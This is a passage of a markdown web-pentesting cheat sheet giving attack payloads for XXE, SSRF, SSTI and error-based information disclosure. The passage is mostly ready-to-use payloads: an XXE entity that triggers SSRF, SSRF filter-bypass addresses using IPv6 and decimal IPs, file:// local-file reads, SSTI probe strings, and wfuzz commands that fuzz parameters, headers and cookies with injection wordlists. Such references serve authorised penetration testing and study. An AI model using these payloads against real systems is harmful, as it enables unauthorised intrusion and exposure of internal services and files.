 ```xml
</someTag>
```
- A simple payload to perform SSRF attack:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://127.0.0.1"> ]>
<someTag>
    <someOtherTag>&xxe;</someOtherTag>
</someTag>
```
- Payloads: 
	- https://github.com/payloadbox/xxe-injection-payload-list
	- https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity

## Server-side request forgery _(SSRF)_
- A simple payload:
```
http://127.0.0.1:<port>/<path>
```
- An advanced payload _(using ipv6 or decimal value to bypass filters)_:
```
http://[::]:<port>/<path>
http://:::<port>/<path>
http://2130706433:<port>/<path>
```
- Read a local file:
```
file://<file_path>
```

## Server side template injection _(SSTI)_
- Common PoC:
```
{{1+1}}
${1+1}
```
- Fuzzing:
```bash
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Server%20Side%20Template%20Injection/Intruder/ssti.fuzz
wfuzz -c -w ./ssti.fuzz -d "<someparam>=FUZZ" -u <url>
```
- Payloads: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

## Error-based information disclosure
- Parameters/paths/headers/cookies fuzzing with some unusual data:
```bash
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/bad_chars.txt,urlencode --basic <username>:<password> -X <http_method> -u <url>?<param>=FUZZ
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/bad_chars.txt -d 'someparam=FUZZ' -u <url>
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/bad_chars.txt --basic <username>:<password> -X <http_method>  -H "<header>: FUZZ" <url>
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/bad_chars.txt,urlencode --basic <username>:<password> -X <http_method>  -b "<cookie_name>=FUZZ" <url>
```
